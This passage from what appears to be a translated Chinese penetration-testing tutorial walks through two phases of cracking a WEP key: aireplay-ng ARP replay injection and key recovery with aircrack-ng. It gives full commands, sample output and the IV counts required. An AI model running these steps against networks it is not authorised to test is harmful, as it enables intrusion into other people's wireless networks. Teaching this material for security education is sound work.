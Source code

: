 请注意，在这个例子中，出现了一个`收到去认证数据包`的消息，然后是一系列的重试。如果发生这种情况，这意味着你无法成功继续，你必须再试一次，看看是否能够成功关联。

# 第五阶段 - ARP 重放模式

回顾之前的方法，我们将使用`aireplay-ng`来监听 ARP 请求，然后使用这些捕获的信息重新注入到网络中。在这种情况下，我们主要使用 ARP 请求数据包，主要是因为 AP 将重新广播它们，从而生成一个新的 IV。由于这是我们的主要目标，即在短时间内获得大量 IVs，我们正在进行这个操作。

要执行注入，我们需要打开另一个控制台并输入：

```
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

这将开始监听 ARP 请求，当它听到一个时，`aireplay-ng`将立即开始注入它。

如果进程成功完成，期望看到类似以下的输出：

```
 Saving ARP requests in replay_arp-2017.cap 
 You should also start airodump-ng to capture replies. 
 Read 629399 packets (got 316283 ARP requests), sent 210955 packets... 
```

你可以通过检查你的`airodump-ng`屏幕来确认你正在进行注入。数据包应该迅速增加。`#/s`应该是一个不错的数字。然而，不错取决于许多因素。典型的范围是每秒`300`到`400`个数据包。它可以低至每秒 100 个，高至每秒 500 个。

# 第六阶段 - 获取 WEP 密钥

现在我们已经将流量捕获到一个`.cap`文件中，我们现在将尝试从捕获的数据包中检索密钥。为此，我们需要执行以下操作：

打开另一个新的控制台会话并输入：

```
aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
```

-b 00:14:6C:7E:40:80 选择我们感兴趣的一个接入点。

`.cap`选择所有以 output 开头并以`.cap`结尾的文件。

1.  您可以在生成数据包的同时运行此操作。在短时间内，WEP 密钥将被计算并呈现出来。对于 64 位密钥，您大约需要 250,000 个 IVs，对于 128 位密钥，您需要 1,500,000 个 IVs。请注意，这些值只是粗略指南，其他变量可能会影响您实际需要收集多少流量和 IVs。

1.  如果过程成功完成，您应该会看到类似以下内容的东西：

```
 Aircrack-ng 0.9 

                              [00:03:06] Tested 674449 keys (got 96610 IVs) 

 KB    depth   byte(vote) 
  0    0/  9   12(  15) F9(  15) 47(  12) F7(  12) FE(  12) 1B(   5) 77(   5) A5(   3) F6(   3) 03(   0)  
  1    0/  8   34(  61) E8(  27) E0(  24) 06(  18) 3B(  16) 4E(  15) E1(  15) 2D(  13) 89(  12) E4(  12)  
  2    0/  2   56(  87) A6(  63) 15(  17) 02(  15) 6B(  15) E0(  15) AB(  13) 0E(  10) 17(  10) 27(  10)  
  3    1/  5   78(  43) 1A(  20) 9B(  20) 4B(  17) 4A(  16) 2B(  15) 4D(  15) 58(  15) 6A(  15) 7C(  15)  

                       KEY FOUND! [ 12:34:56:78:90 ]  
      Probability: 100% 
```

请注意，密钥的显示方式并非您所期望的那样。方括号中的字符是十六进制的通行密钥。如果您删除冒号，然后在提示要与网络关联时将剩余字符粘贴到无线客户端中，它仍然可以工作。

